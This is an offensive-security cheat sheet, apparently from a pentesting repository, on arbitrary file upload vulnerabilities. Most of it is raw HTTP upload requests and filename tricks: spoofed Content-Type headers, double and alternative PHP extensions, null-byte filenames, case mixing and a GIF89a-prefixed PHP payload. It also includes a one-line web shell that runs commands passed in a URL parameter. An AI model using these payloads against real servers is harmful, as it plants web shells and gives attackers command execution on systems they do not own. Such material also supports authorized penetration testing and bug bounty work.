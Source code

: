 # Arbitrary File Upload

## Introduction
An arbitrary file upload vulnerability is a type of security flaw that allows an attacker to upload malicious files onto a server.

## Where to find
In upload file feature, for example upload photo profile feature

## How to exploit
1. Change the `Content-Type` value
```
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```
Change the Content-Type
```
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/jpeg
```

2. Try to change the extension when send the request, for example in here you cant upload file with ext php but you can upload jpg file
```
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php.jpg"
Content-Type: application/x-php
```
Change the request to this
```
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php
```

3. Upload the payload, but start with GIF89a; and
```
POST /images/upload/ HTTP/1.1
Host: target.com
...
---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: image/gif
GIF89a; <?php system("id") ?>
```
And dont forget to change the content-type to image/gif

4. Bypass content length validation, it can be bypassed using small payload
```
(<?=`$_GET[x]`?>)
```

5. Using null byte in filename
```
file.php%00.gif
```

6. Using double extensions for the uploaded file
```
file.jpg.php
```

7.  Uploading an unpopular php extensions (php4,php5,php6,phtml)
```
file.php5
```

8. Try to randomly capitalizes the file extension
```
file.pHP5
```

9. Mix the tips!
